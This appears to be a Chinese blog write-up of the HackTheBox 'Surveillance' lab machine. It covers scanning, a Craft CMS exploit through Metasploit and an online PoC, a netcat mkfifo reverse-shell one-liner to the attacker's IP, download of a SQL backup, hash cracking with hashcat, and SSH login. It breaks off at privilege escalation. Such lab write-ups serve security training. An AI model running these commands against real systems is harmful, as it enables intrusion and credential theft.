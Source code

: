 #  一、信息收集

kali机器ip：10.10.16.53

靶机ip：10.10.11.245

首先nmap拿到基本端口开放信息

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 11:53 CST
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 18.26% done; ETC: 11:54 (0:01:03 remaining)
Nmap scan report for surveillance.htb (10.10.11.245)
Host is up (0.48s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title:  Surveillance 
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=2/2%OT=22%CT=1%CU=37763%PV=Y%DS=2%DC=T%G=Y%TM=65BC67CA
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=8)OPS(
OS:O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11
OS:NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   583.76 ms 10.10.16.1 (10.10.16.1)
2   271.27 ms surveillance.htb (10.10.11.245)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.80 seconds
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

发现开放了22和80两个端口，22是ssh，渗透优先级靠后，先看看80端口，浏览器访问（省略修改hosts文件步骤）

![img](https://img-blog.csdnimg.cn/direct/6e01404cee4147b7a2f77d79dbf5e387.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑用紫色小插件看出收集基本信息，得到有效信息craft cms，这是个美国公司开发的内容管理系统，找到一个可能的突破点

接下来对该网站进行目录爆破和子域名爆破，分别使用dirsearch和gobuster

步骤及结果如下

```bash
执行该代码
dirsearch -u http://surveillance.htb/
结果：

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )                                                                                 
                                                                                                        
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /usr/lib/python3/dist-packages/dirsearch/dirsearch_surveillance.htb.output

Error Log: /root/.dirsearch/logs/errors-24-02-02_14-17-17.log

Target: http://surveillance.htb/

[14:17:20] Starting: 
[14:17:41] 301 -  178B  - /js  ->  http://surveillance.htb/js/
[14:18:33] 200 -    0B  - /.gitkeep                                        
[14:18:37] 200 -  304B  - /.htaccess                                       
[14:22:24] 302 -    0B  - /admin  ->  http://surveillance.htb/admin/login   
[14:22:37] 302 -    0B  - /admin/  ->  http://surveillance.htb/admin/login  
[14:22:37] 302 -    0B  - /admin/?/login  ->  http://surveillance.htb/admin/login
[14:22:39] 302 -    0B  - /admin/admin  ->  http://surveillance.htb/admin/login
[14:22:42] 200 -   38KB - /admin/admin/login                                
[14:22:47] 302 -    0B  - /admin/index  ->  http://surveillance.htb/admin/login
[14:22:49] 200 -   38KB - /admin/login                                      
[14:26:49] 301 -  178B  - /css  ->  http://surveillance.htb/css/            
[14:28:06] 301 -  178B  - /fonts  ->  http://surveillance.htb/fonts/        
[14:28:44] 403 -  564B  - /images/                                          
[14:28:44] 301 -  178B  - /images  ->  http://surveillance.htb/images/
[14:28:45] 301 -  178B  - /img  ->  http://surveillance.htb/img/            
[14:28:53] 200 -    1B  - /index                                            
[14:28:54] 200 -   16KB - /index.php                                        
[14:28:55] 200 -    1B  - /index.php.                                       
[14:29:15] 403 -  564B  - /js/                                              
[14:29:54] 302 -    0B  - /logout  ->  http://surveillance.htb/             
[14:29:55] 302 -    0B  - /logout/  ->  http://surveillance.htb/            
[14:34:55] 200 -    1KB - /web.config                                       
[14:35:09] 418 -   24KB - /wp-admin/                                        
[14:35:09] 418 -   24KB - /wp-admin                                         
                                                                             
Task Completed
                                           
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

```bash
进行子域名爆破
gobuster dns -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -domain devvortex.htb
结果：
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     omain
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
2024/02/02 14:05:46 Starting gobuster in DNS enumeration mode
===============================================================

===============================================================
2024/02/02 14:14:07 Finished
===============================================================
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

gobuster并未检测到子域名，dirsearch倒是爆出不少东西，但研究下来发现并没有什么有用的，于是只能将突破点放到cms上，使用msfconsole搜索看看有没有可用的poc

# 二、获得立足点

```bash
msfconsole

search craft cms 4
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

有以下结果![img](https://img-blog.csdnimg.cn/direct/574308a2c20a4ad7b44f2a1ee02517c1.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑用第1个试试

```bash
use 1
show options
set rhosts http://surveillance.htb/
set lhost 10.10.16.53
run
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

虽然显示可以利用但总是利用失败，不知道为什么，不过在网上找到了poc，成功利用

![img](https://img-blog.csdnimg.cn/direct/5c72baf8b90e45a6a62035ade4ef8ecd.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑

但是这个shell并没有交互性且很慢，所以换一个。这边参考了这篇文章（[【渗透测试】Surveillance - HackTheBox，网络摄像头渗透+SSH端口转发访问本地资源_hackthebox surveillance-CSDN博客](https://blog.csdn.net/m0_74272345/article/details/135016035)）执行

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.53 4444 >/tmp/f
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

同时nc -nlvp 4444拿到shell

![img](https://s2.loli.net/2024/03/07/R17YLCU6dQtcZlG.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑

这边进入到 ../storage/backups文件夹发现一个sql的备份文件，下载下来看看

![img](https://img-blog.csdnimg.cn/direct/1cb3f5f5bc6141e1a798a7f1017820d1.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑

用python3开web服务下载下来

```bash
靶机执行：
python3 -m http.server 8965

kali执行：
http://surveillance.htb:8965/surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

打开看看有没有什么东西

发现是个dump文件，通过kali自带的mysql进行恢复

```bash
service mysql start 
mysql
create database db1
ctrl+z
mysql -uroot -p****** < surveillance--2023-10-17-202801--v4.4.14.sql
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

恢复后在users表里发现了admin用户，可能存在密码复用，破解试试

用hashcat破解

```bash
hashcat passwd.hash /usr/share/wordlists/rockyou.txt -m 1400
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![img](https://img-blog.csdnimg.cn/direct/687a8f4951c043659959f587fd5c9485.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑

拿到密码，通过观察admin用户的名称为Matthew，试试ssh

```bash
ssh matthew@10.10.11.245
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

成功进入

![img](https://s2.loli.net/2024/03/07/m8nqYZv4eTPwaHW.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑

拿到user flag

![img](https://s2.loli.net/2024/03/07/BvWJOMiXP58k2ef.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)编辑

接下来传入linpeas.sh看看提权

 找到很多密码，但毫无思路，后序参考文章[【渗透测试】Surveillance - HackTheBox，网络摄像头渗透+SSH端口转发访问本地资源_hackthebox surveillance-CSDN博客](https://blog.csdn.net/m0_74272345/article/details/135016035)
